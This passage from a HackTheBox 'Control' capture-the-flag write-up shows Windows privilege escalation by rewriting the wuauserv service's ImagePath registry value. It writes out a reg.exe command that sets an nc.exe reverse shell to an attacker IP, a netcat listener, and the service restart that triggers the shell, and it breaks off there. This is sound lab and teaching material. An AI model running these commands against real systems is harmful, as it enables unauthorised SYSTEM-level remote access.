 
We can see `hector` has full control over services on the system. To exploit this, we need to find a service runinng as SYSTEM which we can restart, and overwrite it's `ImagePath` value. This value instructs the service what to execute at launch, so after we restart the service we can tell it to give us a shell. 


So we need to find a service that we can restart and that runs as SYSTEM, the issue is that we don't have permissions to commands like `sc queryex` or `tasklist`, Nor do we have access to powershell's `Get-Service` cmdlet. So I wasn't sure how we can enumerate the services to find the right one to exploit. 


Eventually I decided to make make an educated guess and go for the `wuauserv` service, since I have exploited in the past using Potato attacks. 


To exploit this, we need to grab a copy of `nc64.exe` to the target, I use a python web server on my attack machine and `iwr` to download it from the target. 


Then, I use the following command, to overwrite the `ImagePath` key of the service with my reverse shell payload:

```powershell
reg.exe add hklm\system\currentcontrolset\services\wuauserv /v imagepath /t REG_EXPAND_SZ /d "C:\windows\system32\spool\drivers\color\nc.exe 10.10.14.63 636 -e cmd.exe" /f
```

![reg-add-40](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Control/img/reg-add-40.png)


From here I start my local listener with:

```bash
rlwrap nc -lnvp 636
```

And restart the service which stalls for a bit before returning an error:

```powershell
start-service wuauserv
```

![err-41](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Control/img/err-41.png)


But in the mean time I get a shell as the SYSTEM:
